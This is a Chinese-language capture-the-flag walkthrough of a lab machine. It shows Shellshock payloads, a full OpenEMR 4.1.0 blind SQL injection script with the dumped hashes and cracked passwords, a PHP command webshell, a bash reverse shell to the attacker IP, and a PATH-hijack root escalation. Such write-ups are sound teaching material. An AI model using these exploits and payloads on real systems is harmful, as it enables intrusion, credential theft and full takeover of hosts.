


# 前言

靶机：`fristileaks`靶机，IP地址为`192.168.10.11`

攻击：`kali`，IP地址为`192.168.10.6`

靶机和攻击机都采用`VMware`虚拟机，都采用桥接网卡模式

> 文章涉及的靶机及工具，都可以自行访问官网或者项目地址进行获取，或者通过网盘链接下载 `https://pan.quark.cn/s/d61ada5d3cf2`

# 主机发现

也就是相当于现实环境中去发现确定主机的`ip`地址，因为这里是靶机环境，所以跳过了从域名到`ip`地址的过程。

使用`arp-scan -l`或者`netdiscovery -r 192.168.10.1/24`

当然也可以使用`nmap`等工具进行

```shell
arp-scan -l
```


# 信息收集

## 使用nmap扫描目标端口等信息

首先扫描目标的`tcp`端口的开放情况

```shell
nmap -sT --min-rate=1000 192.168.10.11 -p- -oA nmap-tcp
```


再扫描`udp`端口的开放情况

```shell
nmap -sU --min-rate=1000 192.168.10.11 --top-ports 20 -oA nmap-udp
```


可以看到明确开放的`udp`端口没有，所以下面对`tcp`端口进行一个筛选，这里因为`22`端口并不是明确`closed`的，是`filtered`的，所以也要包括在内

```shell
ports=`grep /tcp nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','`
```


进一步对这些端口进行服务、系统等探测

```shell
nmap -sV -O -sC 192.168.10.11 -p $ports --min-rate=1000
```


再使用`nmap`的漏洞检测脚本对这些端口进行探测

```shell
nmap --script=vuln 192.168.10.11 -p $ports
```


## FTP探测

使用`nmap`的脚本检测

```shell
nmap --script=ftp* 192.168.10.11 -p 21
```


再尝试使用`anonymous`能否匿名无密码登录，虽然如果可以`nmap`会显示的，但还是测试一下


## 网站信息探测

访问端口界面，查看页面源代码，并无信息泄露


使用`whatweb`或浏览器插件`wappalyzer`识别配置


```shell
whatweb http://192.168.10.11
```


使用`gobuster`等工具进行目录爆破

```shell
gobuster dir -u http://192.168.10.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 403-404 -x php,html,txt,git,zip,md
```


访问`robots.txt`，发现几个目录


访问`/all_our_e-mail_addresses`，发现不行，提示对象找不到，并且尝试访问其他的目录，也是如此


这里`robots`中提到`user-agent`，不过即使我修改为`htdig`，也是无法访问`doc`方面的，只能暂且放置

访问目录爆破出的几个目录，要不就是找不到，要么就是403，无权访问

重新扫描一下，换一个工具，感觉少了点什么

```shell
dirsearch -u http://192.168.10.11
```


啧啧啧， 这可厉害了，访问查看


好好好，那么就测试有无`shellshock`漏洞。对于该漏洞，再次写一下

> CVE漏洞名称：CVE-2014-6271
>
> 目前的bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。

那么尝试构造链接进行测试

```shell
curl -H "User-Agent: (){ :;};echo Content-Type;echo test;/usr/bin/id;" http://192.168.10.11/cgi-bin/test.cgi -I -v

curl -H 'x: () { :;};a=/bin/cat /etc/passwd;echo $a' 'http://192.168.10.11/cgi-bin/test.cgi' -I
```



但是测试后，发现漏洞应该修复了，代码并没有执行成功，奇怪了，突破点在哪里啊

使用`searchsploit`有无对应的`apache2`漏洞，基本上不行

两条路，爆破`ftp`，这个难度可能高，毕竟不知道用户名和密码

另外就是目录爆破的字典不行，再扩大

这里我其实使用的是`kali`默认的最大字典了，啧，只能下载字典了，好在可以通过`apt`直接下载

```shell
apt -y install seclists
```

这个在`github`上是有项目地址的，并且一直在更新`https://github.com/danielmiessler/SecLists`

这个字典安装后的位置是在`/usr/share/seclists`中

因为后面采用的字典很大，我这里为了省时间，就去掉了扩展，实际扫描的时候建议不要像我这样

我是因为实在没办法看了`wp`，最后知道是字典问题的，所以去掉扩展扫描的

```shell
gobuster dir -u http://192.168.10.11 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -b 404,403
```


# cms漏洞利用

访问`openemr`，发现有一个登录框，并且给出了版本


登录框测试了一下简单的注入，并没有效果，并且并没有验证码之类的，所以可以爆破

使用`searchsploit`搜索该CMS的漏洞，发现具体的有两个漏洞，都是`sql`注入的


查看文本`txt`文件



尝试下面的`payload`，发现并不行，访问后还是直接跳转到登录界面

那么查看`python`脚本文件，文件中的`url`，测试一下是否可以访问，可以访问


进一步的去查看脚本文件，发现，主要就是利用时间延时注入进行的一个枚举

查看代码，当然，这里其实知道了注入点，就可以自己去`burp`等工具上进行爆破了，这也让我知道会编写脚本的重要性。

```python
# Exploit Title: OpenEMR 4.1.0 - 'u' SQL Injection
# Date: 2021-04-03
# Exploit Author: Michael Ikua
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/refs/tags/v4_1_0.zip
# Version: 4.1.0
# Original Advisory: https://www.netsparker.com/web-applications-advisories/sql-injection-vulnerability-in-openemr/

#!/usr/bin/env python3

import requests
import string
import sys

print("""
   ____                   ________  _______     __ __   ___ ____
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \\
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ /
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/
    /_/
    ____  ___           __   _____ ____    __    _
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike
""")

all = string.printable
# 这里编辑url地址，确保是可访问的正确的
url = "http://192.168.10.11/openemr/interface/login/validateUser.php?u="

#确定用户名的个数
def extract_users_num():
    print("[+] Finding number of users...")
    for n in range(1,100):
        payload = '\'%2b(SELECT+if((select count(username) from users)=' + str(n) + ',sleep(3),1))%2b\''
        r = requests.get(url+payload)
        if r.elapsed.total_seconds() > 3:
            user_length = n
            break
    print("[+] Found number of users: " + str(user_length))
    return user_length

def extract_users():
    users = extract_users_num()
    print("[+] Extracting username and password hash...")
    output = []
    #这个for循环是确定user:pass这种形式的具体长度的，也就是length的大小
    for n in range(1,1000):
        payload = '\'%2b(SELECT+if(length((select+group_concat(username,\':\',password)+from+users+limit+0,1))=' + str(n) + ',sleep(3),1))%2b\''
        #print(payload)
        r = requests.get(url+payload)
        #print(r.request.url)
        if r.elapsed.total_seconds() > 3:
            length = n
            break
            
    #这个for循环是确定每一位的ascii值的
    for i in range(1,length+1):
        for char in all:
            payload = '\'%2b(SELECT+if(ascii(substr((select+group_concat(username,\':\',password)+from+users+limit+0,1),'+ str(i)+',1))='+str(ord
(char))+',sleep(3),1))%2b\''
            #print(payload)
            r = requests.get(url+payload)
            #print(r.request.url)
            if r.elapsed.total_seconds() > 3:
                output.append(char)
                if char == ",":
                    print("")
                    continue
                print(char, end='', flush=True)


try:
    extract_users()
except KeyboardInterrupt:
    print("")
    print("[+] Exiting...")
    sys.exit()
```

啧，其实到这里可以尝试使用`sqlmap`了，但是在一些考试中，不允许使用的，所以还是使用脚本。不过`sqlmap`一定要会使用

这个脚本需要修改其中的`url`，也就是`ip`地址改为靶机的即可

```shell
#执行脚本
python3 49742.py

#获取到的值
[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

借助在线网站`cmd5.com`破解值


破解后为

```shell
admin:ackbar
medical:medical
```

# 构造命令执行至反弹shell

以`admin`登录，然后测试功能点，在`administration`下的`files`中，发现可编辑文件，并且可以保存，编辑的文件可以是`php`，并且还有文件所在的路径，插入一句话，使得可以命令执行

```php
system($_GET['cmd']);
```


然后下拉，可以看到`save`按钮，保存即可

这时候构造链接去访问，若直接访问`/sites/default`的话，是无权的，但是加上`config.php`可以访问成功

```shell
http://192.168.10.11/openemr/sites/default/config.php?cmd=id
```


后面就可以进行编写反弹`shell`了

```shell
bash -i >& /dev/tcp/192.168.10.6/9999 0>&1
#进行url编码
bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.10.6%2f9999+0%3e%261
```

当然执行前记得先在`kali`开启监听端口

```shell
nc -lvvp 9999
```


# 提权

使用命令查看安装的什么版本的`python`，然后进一步获取`shell`

```shell
compgen -c | grep python
python -c 'import pty;pty.spawn("/bin/bash")'
```


查看有哪些用户，发现有`medical`，之前获取的`medical`密码是否可用，进行测试


密码与网站密码一样，用户名`medical`，密码`medical`


查看当前用户下的主目录，并没有发现`user.txt`，为什么找它，毕竟这是作者说的，找到的过程也是一种学习

切换其他用户目录下查看，因为有权限的，在`almirant`的主目录下，发现`user.txt`文件


在备份目录`/var/backups`处，找到了`/etc/shadow`的文件备份，这就可以进行`hash`爆破了


该备份目录下，基本上该有的都有，网站备份，等等，这里也看到了连接数据库的用户名和密码，啧

也去查看了`ftp`中的信息，只有一个文件，并没有信息，说明21端口真的无用


那么继续，使用`find`寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```


本以为会有`sudo`，毕竟这么多用户，想着会一步步提权呢，没想到没有`sudo`

这个文件，一看就像是自己创建的，执行一下测试


使用`strings`测试，这个命令靶机可以使用，所以直接查看

```shell
strings /usr/bin/healthcheck
```


可以看到，这里调用命令的时候，并不是绝对路径，是根据环境变量调用的，那么就可以利用这一点，去提权。

```shell
cd /tmp
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
```


这时候就会优先调用`/tmp`目录的，写一个文件，命名为`ifconfig`，然后代码为提权，如

```shell
echo "chmod +s /bin/bash" > ifconfig
chmod 777 ifconfig
```


然后开始执行`/usr/bin/healthcheck`，这时候可以看到`ifconfig`网络信息的内容没有了


这时候查看`/bin/bash`的权，发现具有SUID权限了，那么直接提权

```shell
/bin/bash -p
```


查看最终的`root.txt`


# 总结

该靶机的考察点主要侧重在`web`界面，也就是网站

1. 目录爆破的时候，字典的强度决定你的强度
2. CMS的历史漏洞，这里提醒，要会编写脚本
3. CMS的一些功能点要会测试，并能够找到可利用点
4. 对于环境变量提权的手法要会